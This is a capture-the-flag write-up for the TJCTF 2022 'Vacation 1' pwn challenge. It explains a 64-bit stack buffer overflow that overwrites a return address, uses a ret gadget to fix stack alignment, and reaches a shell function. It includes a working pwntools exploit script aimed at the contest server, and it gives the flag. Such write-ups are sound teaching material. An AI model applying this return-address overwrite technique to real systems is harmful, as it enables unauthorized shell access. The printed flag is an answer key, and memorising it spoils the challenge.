 # \[Pwn\] - Vacation 1

#### Points = 176

## Prompt

Too much school, too much work, too much writing CTF challenges... can I just go on vacation?

`nc tjc.tf 31680`

by kfb

#### Hints
\[None\]

## Provided Files
[files](../../files/tjctf-2022/vacation-1) - link to files

- `DockerFile`
- `chall.c` - source code
- `chall` - compiled binary

<div style="page-break-after: always"></div>

## Write Up

- ok let's see what this is doing.
![source|500](../images/tjctf-2022/vacation_src.png)
	- line #16 - `main()` calls `vacation()`
	- line #9 - `vacation()` allocates 16 bytes on the stack for a buffer
	- line #11 - `fgets()` accepts 64 bytes as input.
		- we can overflow this buffer and overwrite stack values.
	- line #4 - `shell_land()` function gives us a shell which we can use to read the flag.
		- we need to overwrite the return address in `vacation()` to return to `shell_land()`

<div style="page-break-after: always"></div>

#### What the Stack Looks like:
![layout|500](../images/tjctf-2022/vacation_stack.png)

- our input must fill the buffer with 16 bytes
- the next 8 bytes will fill the space for the saved `rbp` register
- the last 8 bytes should be filled with the address of `shell_land()`
- you can find function addresses using gdb: 
![gdb|500](../images/tjctf-2022/vacation_gdb.png)

<div style="page-break-after: always"></div>

#### Modification

- this approach does not work because the stack is not aligned on the target machine
	- since this is a 64-bit machine, all stack addresses are 8 byte aligned.
	- libc functions like `system()` have the extra requirement that the stack is 16 byte aligned.
- **New Approach** -  instead we will jump to any `ret` instruction in the program and then to `shell_land()`
	- an extra `ret` instruction pops a value off the stack which makes it 16 byte aligned if it was not before.

###### Explanation of New Approach

- what `ret` does is pop 8 bytes off the stack into `rip`
- we are going to be executing two `ret` instructions in a row
	- first - at the end of `vacation()`
	- second - the one we are jumping to
- after the first `ret` executes, `rsp` will be pointing right above the address it placed in `rip`, since `ret` is just a fancy `pop` instruction.
- We can jump to a `ret` instruction and then `shell_land()` by placing their addresses consecutively on the stack as shown below.
- I hope I did a good job explaining this `-_(0-0)_-`

![modified|500](../images/tjctf-2022/vacation_mod.png)


#### Solution
- here is a python script which creates a payload as described above.

	```
	from pwn import *

	# location of shell_land() - handles endianness
	ret_instr_addr = p64(0x4011df)
	shell_addr = p64(0x401196)

	# 16B - buffer, 8B - saved rbp
	padding = b'A' * 24

	# final payload
	# jump to a ret instr then to func (fixes alignment issue)
	payload = padding + ret_instr_addr + shell_addr

	# make connection and deliver
	# elf = ELF('./chall')
	# tgt = elf.process()
	tgt = remote('tjc.tf', 31680)
	line = tgt.recvline()

	tgt.sendline(payload)
	tgt.interactive()
	```

- this gives you a shell where you can `cat` the flag
![shell|500](../images/tjctf-2022/vacation_shell.png)
	
## Flag

tjctf{wh4t_a_n1c3_plac3_ind33d!_7609d40aeba4844c}